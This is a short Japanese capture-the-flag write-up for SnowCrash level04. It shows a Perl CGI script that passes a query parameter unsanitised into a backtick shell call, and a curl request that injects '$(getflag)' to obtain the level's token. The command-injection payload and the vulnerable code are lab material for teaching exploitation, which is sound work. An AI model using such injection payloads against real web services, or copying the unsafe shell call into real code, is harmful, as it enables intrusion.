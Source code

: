 ##　perlスクリプトの内容を確認
```sh
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## エクスプロイト
- `localhost:4747`でクエリパラメータを受け付けている。
- `x(param("x"));`でクエリパラメータの`x`をの値を`echo`で出力している。

これらを利用して、クエリパラメータ`x`に`$(getflag)`を設定し`echo`で`getflag`をコマンド置換する。

## リクエストの送信
```sh
level04@SnowCrash:~$ curl 'http://localhost:4747/?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```